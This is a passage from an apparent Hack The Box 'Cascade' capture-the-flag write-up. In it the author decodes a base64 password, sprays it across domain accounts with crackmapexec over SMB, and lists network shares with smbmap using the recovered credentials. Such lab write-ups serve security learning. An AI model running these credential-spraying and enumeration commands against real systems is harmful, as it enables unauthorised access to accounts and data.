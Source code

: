 ```text
zweilos@kalimaa:~/htb/cascade$ echo clk0bjVldmE= | base64 -d
rY4n5eva
```

Base64 decoding `clk0bjVldmE=` gave me the password `rY4n5eva`. 

#### crackmapexec

I saved this password to my **passwords** file and used `crackmapexec` to test all of the users against SMB with this password.  

```text
zweilos@kalimaa:~/htb/cascade$ crackmapexec smb -u users -p passwords -d Cascade 10.10.10.182

Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)

SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:Cascade) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] Cascade\r.thompson:rY4n5eva
```

As expected, the password belonged to `r.thompson`. 

## Initial Foothold

### Enumeration as `r.thompson`

#### smbmap

Using my new credentials, I was able to get a full listing of the network shares on this machine.

```text
zweilos@kalimaa:~/htb/cascade$ smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
[+] IP: 10.10.10.182:445        Name: Casc-DC1                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

This user was only able to access **Data**, **NETLOGON**, **print$**, and **SYSVOL**.  
